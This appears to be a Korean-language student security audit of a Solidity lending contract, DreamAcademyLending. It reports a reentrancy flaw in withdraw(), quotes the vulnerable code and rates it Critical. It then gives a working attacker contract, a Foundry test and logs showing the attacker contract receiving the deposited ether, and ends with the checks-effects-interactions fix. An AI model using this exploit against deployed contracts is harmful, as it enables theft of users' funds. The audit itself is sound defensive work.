 ## 문성훈

## 미구현된 부분: Repay, Accured Interest

## 1. Reentrancy

### 설명

문제 코드: DreamAcademyLending.sol 내 withdraw() 함수 전체

withdraw 함수에서 예치한 이더리움 담보를 보낼 때 담보에 대한 정보를 업데이트 하지 않은 채로 송금을 먼저 수행하기 때문에 발생한 문제이다.

```java
function withdraw(address tokenAddress, uint256 amount) external {
  _createBook(msg.sender);

  _updateInterest();

  if(tokenAddress == address(0x0)) {
    require(ETHBalance >= amount);
    uint256 borrowedETH = participateBooks[msg.sender].usdc_borrow  * 2 / _orcale.getPrice(address(0x0)) * 1e18;

    require(participateBooks[msg.sender].eth_balance - borrowedETH >= amount);

    (bool success, ) = payable(msg.sender).call{value: amount}("");

    ETHBalance -= amount;
    participateBooks[msg.sender].eth_balance -= amount;
    participateBooks[msg.sender].eth_deposit -= amount;
    participateBooks[msg.sender].eth_collateral -= amount;
	} else {
	...
	}
	...
}
```

withdraw 함수는 ETHBalance와 participateBooks라는 전역변수를 사용해 사용자의 담보 정보를 가져오는데, 이를 업데이트하는 `ETHBalance -= amount;` 구문이 송금 이후에 위치해있다. 이는 Checks - Effects - Interaction 패턴에 벗어나며, 외부 함수의 호출로 인한 reentrancy 취약점이 발생할 수 있다.

### 파급력

Critical

-   산정 이유
    -   구현된 withdraw 함수의 한계로 단순히 재진입이 가능하다는 점만 증명 가능하다. 또한 사용자가 맡긴 담보만을 연속적으로 탈취할 수 있다는 점만 존재한다.
    -   하지만 컨트랙트가 완성되었을 경우 매우 강력한 취약점으로 작용할 수 있기 때문에 Critical을 부여하였다.
-   공격 시나리오
    -   다음과 같이 Reentrancy 코드를 작성했다.
    -   공격자는 임의의 자산을 예치하고, 예치한 자산의 일부를 withdraw를 호출하여 돌려받는다.
    -   receive 함수에 다시 withdraw를 호출하는 구문을 넣어 withdraw로 이더리움을 돌려받는 데에 성공하면 다시한번 withdraw를 호출한다.
    -   Lending 컨트랙트 내에서 아직 ETHBalance와 participateBooks의 값이 업데이트 되지 않았으므로 모든 조건을 통과하고 call with value를 수행한다.
    -   모든 자금을 탈취하면 attack 함수의 동작이 종료되고, reenterancy 컨트랙트는 lending 컨트랙트에 예치한 사용자의 담보를 돌려받게 된다.
    -   이렇게 접근한 자산은 공격자가 되돌려받을 수 있다.
    ```java
    contract Reentrancy {
      DreamOracle dreamOracle;
      DreamAcademyLending lending;
      address owner;
      constructor(DreamAcademyLending _lending){
        lending = _lending;
        owner = msg.sender;
      }
      function attack() external payable {
        require(msg.value >= 100 ether, "msg.value more than 100 ether");
        console.log("start", address(this).balance / 1 ether);
        (bool success, )= address(lending).call{value: 100 ether}(abi.encodeWithSelector(lending.deposit.selector, address(0x0), 100 ether));

        (bool success2, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), 100 ether));
      }

      function transfer() public payable {
        (bool success,) = msg.sender.call{value: 100 ether}("");
      }

      receive() external payable {
        uint targetBalance = address(lending).balance;
        if(targetBalance > 100 ether){
            console.log(address(this).balance / 1 ether);
            (bool success3, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), 100 ether));
        }
      }
    }
    ```
    ```java
    function testReentrancy() external {
      reentrancy = new Reentrancy(lending);
      vm.deal(user1, 1000 ether);
      supplySmallEtherDepositUser2();

      console.log("user1 balance", user1.balance / 1 ether);
      console.log("reenter balance", address(reentrancy).balance / 1 ether);
      console.log("lending balance", address(lending).balance / 1 ether);
      vm.startPrank(user1);
          (bool success1,) = address(reentrancy).call{value: 1000 ether}(abi.encodeWithSelector(reentrancy.attack.selector));
          (bool success3,) = address(reentrancy).call{value: 0 ether}(abi.encodeWithSelector(reentrancy.transfer.selector));
      vm.stopPrank();
    }
    ```
    ```java
    [PASS] testReentrancy() (gas: 898720)
    Logs:
      user1 balance 1000
      reenter balance 0
      lending balance 1000
      100
      100
      100
      100
      100
      100
      100
      100
      100
      100
      100
      user1 balance 0
      reenter balance 1000
      lending balance 1000
      user1 balance 1000
      reenter balance 0
      lending balance 1000
    ```
    -   lending에 deposit한 1000 ether를 한번의 transfer를 통해 10번에 나누어 reentrancy 컨트랙트에 옮겨왔고, 이를 다시 user1으로 옮겨왔다.
-   공격 난이도
    -   컨트랙트를 호출할 수 있는 사람이라면 누구나 가능하다.

### 해결 방안

-   call을 통해 담보금을 돌려주는 구문을 withdraw 함수에서 맨 뒤로 옮겨서 Check-Effect가 먼저 일어날 수 있도록 해야한다.
